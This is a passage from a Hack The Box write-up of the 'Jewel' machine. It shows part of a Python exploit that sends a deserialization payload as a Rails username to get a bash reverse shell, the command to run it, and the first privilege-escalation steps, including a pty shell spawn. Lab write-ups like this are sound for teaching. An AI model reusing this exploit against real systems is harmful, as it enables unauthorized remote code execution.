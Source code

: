 ```python
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['_method'] = 'patch'
data['user[username]'] = payload
data['commit'] = 'Update User'
s.post(URL + '/users/' + user_id, data=data)
s.post(URL + '/users/' + user_id, data=data)
 
s.get(URL + '/articles')
```

This part of the exploit sends the payload over to the application with the required POST parameter values to successfully send the payload. Note that the actual payload is sent as the **username** in the POST request. Once the request with the payload is sent to the web application, it's deserialized and our bash TCP reverse shell is executed.

For **executing** the exploit script we need to run `python3 exploit.py 10.10.10.211 LHOST LPORT` and make sure our listener is on.

![reverse_shell_bill](assets/img/posts/jewel-htb/reverse_shell_bill.png)

---


## Privilege Escalation <a name="privesc">

First off, we need to spawn a proper TTY shell and for that we can run `python -c "import pty;pty.spawn('/bin/bash')"` and then `export TERM=xterm`. 

Checking for dotfiles at /home/bill gives us an interesting file `.google_authenticator`.

![ls-bill](assets/img/posts/jewel-htb/ls-bill.png)
